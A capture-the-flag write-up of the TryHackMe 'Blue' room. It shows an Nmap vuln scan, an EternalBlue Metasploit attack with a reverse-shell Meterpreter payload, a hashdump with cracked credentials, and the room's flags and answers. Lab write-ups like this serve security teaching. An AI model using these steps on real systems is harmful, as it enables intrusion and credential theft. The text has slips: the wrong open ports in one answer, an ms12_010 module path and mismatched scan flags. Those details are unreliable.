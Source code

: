 # <center>Blue</center>
<p align="center"><img src=".medias/Blue/blue_logo.gif">

Hello homies. Today we'll solve an easy room on Try Hack Me. I'll be guiding you through each task given in the room. lettuce Deploy & hack into a Windows machine, leveraging common misconfigurations issues 👿.

## Task 1 : Recon
Just click on `Start Machine` button presented in this task. This shall get your server running. You'll get the ip address in a minute. Then connect to Try Hack Me vpn and try to ping the ip address to check if you can successfull access the server.

Let' scan the machine using Nmap and then we will answer the questions based on out scanning.` nmap -A -T5 <ip address> --script vuln -Pn`
- -A: Agressive scan
- -T5: very fast scanning
- --script vuln: uses vuln script of nmap to discover vulnerabilities
- -Pn: supresses the ping request because teh description of room says that this machine does not respond to ping (ICMP).

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.231.72 --script vuln -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 12:21 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.231.72
Host is up (0.16s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.38 seconds
                                                                  
```

**Q1. How many ports are open with a port number under 1000?**
```text
From the scan we can see three ports (22,139 and 445) below 1000 are open.
```

**Ans: `3`**

**Q2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**
```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```

**Ans: `ms17-010`**

## Task 2 : Gain Access
In this writeup we will be solving the machine using metasploit. So let's start out metasploit console using command `msfconsole`.
and do the steps shown below:

**Q1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

- `search ms17-010`
![searching exploit](.medias/Blue/search_exploit.png)

- `use exploit/windows/smb/ms17_010_eternalblue`

    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
**Ans: `exploit/windows/smb/ms12_010_eternalblue`**


**Q2. Show options and set the one required value. What is the name of this value? (All caps for submission)**
- `show options`
![show options for the exploit](.medias/Blue/options.png)

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.231.72
RHOSTS => 10.10.231.72
```
**Ans: `RHOSTS`**

For payload, by default getting meterpreter shell. So we don't need to do any funrther steps, just set palyload to windows/x64/meterpreter/reverse_tcp.
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST tun0`
- `run`  # this will execute out payload and get us a meterpreter tcp reverse shell





## Task 3 : Escalate

This task requires you to escalate your normal shell to meterpreter. But in our case, by default we got meter preter shell, so we don't need to do anything for escalation.

But anyway, if you land on a normal reverse shell, [follow this writeup to escalate to meterpreter shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

Now let's check who are we logged in as. Type `shell` in meterpreter to get a shell and then use `whoami` command.
```bash
meterpreter > shell
Process 1968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Okay, so we already are nt authority\system. So we don't need to migrate to any other process. else we would need to use command `migrate <pid>` to migrate to any process used by nt authority\system.

Now let's get back to out meterpreter shell. use `exit` command for this and you will land to your previous meterpreter shell.

## Task 4 : Cracking

In meterpreter shell, we have a command `hashdump` that dumps all the users and their password hashes. Let's try it out.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We got three users. and their hashes as well. And we are required to crack the Jon's password. let's copy the hash for Jon in a file hash.txt and use John the ripper to crack the password.

![cracking password](.medias/Blue/crack_password.png)

and we successfully got teh password for user Jon.

Alternatively, we can also copy the hashpart of password and give it to [hashes.com](https://hashes.com) and it will crack the hash for us.

**Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **

**Ans: `Jon`**

**Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?**

**Ans: `alqfna22`**

## Task 5 : Finding flags!

**Q1. Flag1? This flag can be found at the system root.**

```text
Since the flag is located in system root directory. Let's go to `C` drive and search for it
```

![flag1](.medias/Blue/flag1.png)
**Ans: `flag{access_the_machine}`**


**Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.**

***Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.***

```text
By default, meterpreter shell has a search functionality that can help use search a file.
```

![flag2](.medias/Blue/flag2.png)
**Ans: `flag{sam_database_elevated_access}`**

**Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.**

```text
similarly, we can also search for flag3.txt.
```
![flag3](.medias/Blue/flag3.png)

**Ans: `flag{admin_documents_can_be_valuable}`**

---

And we have successfully found all the flags and solved this room. I hope you all enjoyed this and learnt something new. Until we meet again `:)`.